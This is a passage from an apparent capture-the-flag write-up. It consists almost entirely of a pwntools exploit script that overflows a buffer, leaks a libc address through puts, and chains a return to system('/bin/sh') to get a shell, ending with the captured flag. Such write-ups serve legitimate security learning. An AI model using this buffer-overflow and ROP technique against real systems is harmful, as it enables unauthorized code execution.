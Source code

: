 ```py
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
b *0x80486C1
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()
io.recvuntil(':')
io.sendline('B'*0x100)
io.recvuntil(':')
io.sendline('B'*80)
io.recvuntil(':')
pause()
#leak libc, call main again
rop = flat([
	'D'*0x10,
	exe.sym.puts,
	exe.sym.main,
	exe.got['puts']
])
io.sendline(rop)
io.recvn(0x122)
libc_base = u32(io.recvn(4)) - 0x0673d0
log.info(hex(libc_base))
io.recvuntil(':')
io.sendline('B'*0x100)
io.recvuntil(':')
io.sendline('B'*80)
io.recvuntil(':')
pause()
#call system('/bin/sh')
rop = flat([
	'D'*0x10,
	libc_base+0x03cd80, #system
	0x41414141,
	libc_base+0x17bb8f #binsh string
])
io.sendline(rop)
#pop shell
io.interactive()
#flag{my_code_was_almost_secure}
```

## Statics and Dynamics
points - 100
